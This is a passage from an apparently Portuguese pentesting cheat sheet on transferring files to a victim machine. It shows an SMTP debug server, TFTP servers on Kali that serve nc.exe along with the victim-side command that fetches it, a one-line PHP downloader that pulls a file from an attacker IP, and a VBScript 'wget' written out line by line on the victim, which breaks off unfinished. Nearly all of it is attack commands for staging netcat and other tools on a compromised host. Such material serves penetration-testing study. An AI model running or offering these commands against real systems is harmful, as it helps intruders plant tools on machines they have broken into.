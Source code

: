 Se você pode enviar dados para um servidor SMTP, você pode criar um SMTP para receber dados com python:

```bash
sudo python -m smtpd -n -c DebuggingServer :25
```

## TFTP

Por padrão nos Windows XP e 2003 \(em outros ele precisa ser adicionado explicitamente durante a instalação\)

No Kali, **inicie o servidor TFTP**:

```bash
# Eu não consegui fazer essa opção funcionar e eu prefiro a opção em python
mkdir /tftp
atftpd --daemon --port 69 /tftp
cp /path/tp/nc.exe /tftp
```

**Servidor TFTP em python:**

```bash
pip install ptftpd
ptftpd -p 69 tap0 . # ptftp -p <PORTA> <INTERFACE DE REDE> <DIRETÓRIO>
```

Na **vítima**, conecte ao servidor Kali:

```bash
tftp -i <IP-DO-KALI> get nc.exe
```

## PHP

Download de um arquivo com uma linha de PHP:

```bash
echo "<?php file_put_contents('nomeDoArquivo', fopen('http://192.168.1.102/arquivo', 'r')); ?>" > down2.php
```

## VBScript

```bash
Atacante> python -m SimpleHTTPServer 80
```

#### Vítima

```bash
echo strUrl = WScript.Arguments.Item(0) > wget.vbs
echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
echo Dim http, varByteArray, strData, strBuffer, lngCounter, fs, ts >> wget.vbs
echo Err.Clear >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs
echo If http Is Nothing Then Set http =CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
echo http.Open "GET", strURL, False >> wget.vbs
echo http.Send >> wget.vbs
echo varByteArray = http.ResponseBody >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
```